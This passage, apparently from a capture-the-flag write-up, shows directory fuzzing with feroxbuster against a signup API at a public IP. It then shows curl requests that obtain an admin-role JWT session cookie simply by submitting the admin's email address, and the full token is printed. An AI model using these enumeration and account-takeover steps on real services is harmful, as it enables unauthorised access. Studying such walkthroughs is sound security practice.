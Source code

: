 We have signup 
```
└─$ feroxbuster -u http://44.206.226.86:5000/api/signup -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints-res.txt

...[snip]...

503      GET        1l        2w       33c http://44.206.226.86:5000/api/signup
405      GET        5l       20w      153c http://44.206.226.86:5000/api/signup/email
   
```

We try hitting the endpoint : 
```sh

└─$ curl -X POST http://44.206.226.86:5000/api/signup/email   -H "Content-Type: application/json; charset=utf-8"  -d '{"message":"flag"}'
{"message":"Email is required!"}

```
We get the response that an email is required.
Since we know the admin email lets try it .
```sh

└─$ curl -X POST http://44.206.226.86:5000/api/signup/email   -H "Content-Type: application/json; charset=utf-8"  -d '{"email":"admin@bitwall.co.ke"}' 
{"message":"Welcome back, admin@bitwall.co.ke!"}

```

We do get the response but nothing much thus we add a `-v`  flag to see the headers.
```sh

└─$ curl -X POST http://44.206.226.86:5000/api/signup/email   -H "Content-Type: application/json; charset=utf-8"  -d '{"email":"admin@bitwall.co.ke"}' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 44.206.226.86:5000...
* Connected to 44.206.226.86 (44.206.226.86) port 5000
* using HTTP/1.x
> POST /api/signup/email HTTP/1.1
> Host: 44.206.226.86:5000
> User-Agent: curl/8.12.1
> Accept: */*
> Content-Type: application/json; charset=utf-8
> Content-Length: 31
> 
* upload completely sent off: 31 bytes
< HTTP/1.1 200 OK
< Server: gunicorn
< Date: Mon, 05 May 2025 08:02:52 GMT
< Connection: close
< Content-Type: application/json
< Content-Length: 49
< Set-Cookie: auth_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiMDAwMDAwMDAtMDAwMC0wMDAwLTAwMDAtMDAwMDAwMDAwMDAwIiwiZW1haWwiOiJhZG1pbkBiaXR3YWxsLmNvLmtlIiwicm9sZSI6ImFkbWluIiwiZXhwIjoxNzQ2NTE4NTcyfQ.Hy6o_SxuKK50W5KotrPltTDzGXBMtz0zYF9T1plANWs; Secure; HttpOnly; Path=/
< Access-Control-Allow-Origin: *
< 
{"message":"Welcome back, admin@bitwall.co.ke!"}
* shutting down connection #0

```

